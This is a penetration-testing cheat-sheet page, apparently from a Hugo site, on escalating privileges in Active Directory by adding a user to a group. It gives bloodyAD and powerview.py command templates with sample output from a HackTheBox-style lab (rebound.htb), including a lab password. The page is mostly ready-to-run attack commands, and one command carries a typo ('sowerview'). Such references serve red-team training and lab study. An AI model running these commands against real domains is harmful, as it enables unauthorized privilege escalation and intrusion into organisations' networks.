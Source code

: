 ```yaml
---
title: "AddMember"
date: 2024-11-1
tags: ["Powerview", "AddMember", "Domain Controller", "Active Directory", "Windows", "BloodyAD"]
---
```


### Privesc #1: Add User to Group (From Linux)

{{< tab set1 tab1 >}}bloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}powerview.py{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add User to Group

```console
# With password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> --dc-ip <DC_IP> add groupMember '<GROUP>' '<TARGET_USER>'
```

```console
# With Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -k --host <DC> --dc-ip <DC_IP> add groupMember '<GROUP>' '<TARGET_USER>'
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Connect

```console
# With password
sudo ntpdate -s <DC> && powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && powerview 'rebound.htb/oorend:1GR8t@$$4u@dc01.rebound.htb'
Logging directory is set to /home/kali/.powerview/logs/dc01.rebound.htb
[2024-09-24 07:11:06] Channel binding is enforced!
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > 
```

```console
# With Kerberos
sudo ntpdate -s <DC> && sowerview '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k --no-pass
```

#### 2. Add User to Group

```console
Add-DomainGroupMember -Identity '<GROUP>' -Members '<TARGET_USER>'
```

```console {class="sample-code"}
PV > Add-DomainGroupMember -Identity 'servicemgmt' -Members 'oorend'
[2024-09-24 07:13:17] User oorend successfully added to servicemgmt
```

```console
# Check
Get-DomainGroupMember -Identity '<GROUP>'
```

```console {class="sample-code"}
PV > Get-DomainGroupMember -Identity 'servicemgmt'
GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : ppaul
MemberDistinguishedName     : CN=ppaul,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-1951

...[SNIP]...

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : oorend
MemberDistinguishedName     : CN=oorend,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-7682
```

<small>*Ref: [powerview.py](https://github.com/aniqfakhrul/powerview.py)*</small>

{{< /tabcontent >}}